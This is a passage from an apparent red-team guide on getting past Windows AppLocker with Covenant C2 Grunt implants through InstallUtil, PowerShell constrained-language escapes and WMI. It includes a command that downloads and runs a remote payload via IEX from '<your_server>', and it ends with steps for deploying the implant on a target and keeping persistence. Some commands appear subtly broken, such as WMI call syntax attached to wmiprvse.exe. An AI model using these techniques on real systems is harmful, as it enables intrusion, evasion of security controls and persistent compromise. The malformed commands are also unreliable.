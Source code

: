#### 4. **InstallUtil**
   - **How It Works**: `InstallUtil.exe` is a .NET framework binary used to install and uninstall server resources. It can be abused to execute arbitrary code via specially crafted assemblies.
   - **Execution**: Covenant Grunt can use this binary to run a malicious payload.
   - **Example**:
     ```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U /C:\path\to\malicious.exe
     ```

#### 5. **PowerShell Constrained Language Mode Bypass**
   - **How It Works**: In environments where PowerShell is restricted, but a Covenant Grunt has access, bypassing constrained language mode can allow for more complex PowerShell payloads.
   - **Execution**: Covenant may attempt to escape constrained language mode or use other Windows binaries to run PowerShell scripts outside of AppLocker's control.
   - **Example**:
     - Use `cmd.exe` to launch PowerShell with a trusted parent process.
     - Use a `C#` payload instead of direct PowerShell execution.

#### 6. **WMI (Windows Management Instrumentation)**
   - **How It Works**: WMI can be used to execute code on the system, often bypassing AppLocker due to its deep integration with the operating system.
   - **Execution**: A Grunt can leverage WMI to execute commands or scripts that are typically restricted.
   - **Example**:
     ```powershell
     wmiprvse.exe process call create "powershell -nop -c IEX (New-Object Net.WebClient).DownloadString('http://<your_server>/payload.ps1')"
     ```

### General Steps to Use Covenant for AppLocker Bypass

1. **Deploy Covenant Grunt**: Deploy your Covenant Grunt on the target system.
2. **Use Bypass Techniques**: Use one of the bypass techniques described above to execute your payload.
3. **Payload Execution**: The payload can be a simple command, a script, or an executable that the Covenant Grunt will deliver to the target.
4. **Maintain Persistence**: After bypassing AppLocker, consider using techniques to maintain persistence, such as creating scheduled tasks or using startup folders.

### Considerations

- **Detection**: While these methods can bypass AppLocker, they may still trigger alerts from antivirus or EDR solutions. Always test in a controlled environment.
- **AppLocker Rules**: Ensure you understand the specific AppLocker rules in place, as different environments may have different configurations.

